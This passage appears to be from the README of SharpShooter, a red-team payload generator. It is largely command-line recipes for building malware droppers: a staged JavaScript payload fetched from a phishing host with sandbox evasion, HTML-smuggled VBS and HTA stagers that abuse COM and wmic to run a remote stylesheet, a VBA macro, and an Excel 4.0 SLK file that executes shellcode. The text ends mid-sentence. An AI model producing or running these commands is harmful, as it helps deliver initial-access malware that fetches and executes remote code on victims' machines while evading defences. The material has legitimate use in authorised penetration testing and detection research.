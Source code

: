 ### Custom CSharp inside VBS ###

```
SharpShooter.py --dotnetver 2 --payload js --sandbox 2,3,4,5 --delivery web --refs mscorlib.dll,System.Windows.Forms.dll --namespace MDSec.SharpShooter --entrypoint Main --web http://www.phish.com/implant.payload --output malicious --smuggle --template mcafee
```

This example demonstrates how to create a staged JS payload that performs web delivery, retrieving a payload from http://www.phish.com/implant.payload. The generated payload will attempt sandbox evasion, and attempt to compile the retrieved payload which requires mscorlib.dll and System.Windows.Forms.dll as DLL references. The Main method in the MDSec.SharpShooter namespace will be executed on successful compilation.

### Creation of a Squiblytwo VBS ###

```
SharpShooter.py --stageless --dotnetver 2 --payload vbs --output foo --rawscfile ./x86payload.bin --smuggle --template mcafee --com outlook --awlurl http://192.168.2.8:8080/foo.xsl
```

This example creates a VBS smuggled COM stager that uses the Outlook.CreateObject() COM method as a primitive to execute wmic.exe to execute a hosted stylesheet. The --awl parameter is not used by defaults to wmic.

### Creation of a XSL HTA ###

```
SharpShooter.py --stageless --dotnetver 2 --payload hta --output foo --rawscfile ./x86payload.bin --smuggle --template mcafee --com xslremote --awlurl http://192.168.2.8:8080/foo.xsl
```

This example creates a HTA smuggled file that uses the the XMLDOM COM interface to retrieve and execute a hosted stylesheet.

### Creation of a VBA Macro ###

```
SharpShooter.py --stageless --dotnetver 2 --payload macro --output foo --rawscfile ./x86payload.bin --com xslremote --awlurl http://192.168.2.8:8080/foo.xsl
```

This example creates a VBA macro file that uses the the XMLDOM COM interface to retrieve and execute a hosted stylesheet.


### Creation of an Excel 4.0 SLK Macro Enabled Document ###

```
SharpShooter.py --payload slk --output foo --rawscfile ~./x86payload.bin --smuggle --template mcafee
```

This example creates an Excel 4.0 SLK file that executes the supplied shellcode and wraps it in HTML.
The shellcode cannot contain null bytes, hint:

